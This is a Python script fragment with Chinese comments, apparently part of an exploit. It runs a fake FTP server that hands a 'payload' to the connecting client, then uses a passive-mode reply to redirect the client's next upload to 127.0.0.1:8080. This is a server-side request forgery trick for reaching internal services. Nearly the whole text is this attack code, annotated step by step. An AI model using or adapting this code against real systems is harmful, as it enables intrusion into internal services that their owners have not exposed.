 ```
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    print("220 ")
    conn.send(b"220 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    print("220 ready")
    conn.send(b"220 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文
    print("200 ")
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        print("227 %s,4,210" % (shell_ip.replace('.', ',')))
        conn.send(b"227 %s,4,210\n" % (shell_ip.replace('.', ',').encode()))  # 服务端告诉客户端需要到那个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        print("227 127,0,0,1,31,144")
        conn.send(b"227 127,0,0,1,31,144\n")  # 端口计算规则：31*256+144=8080

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        print("125 ")
        conn.send(b"125 \n") # 告诉客户端可以开始数据链接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        print("150 ")
        conn.send(b"150 \n")

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        print("226 ")
        conn.send(b"226 \n")
    
    print(conn.recv(20))  # QUIT\r\n
    print("221 ")
    conn.send(b"221 \n")
    conn.close()
    count += 1

```
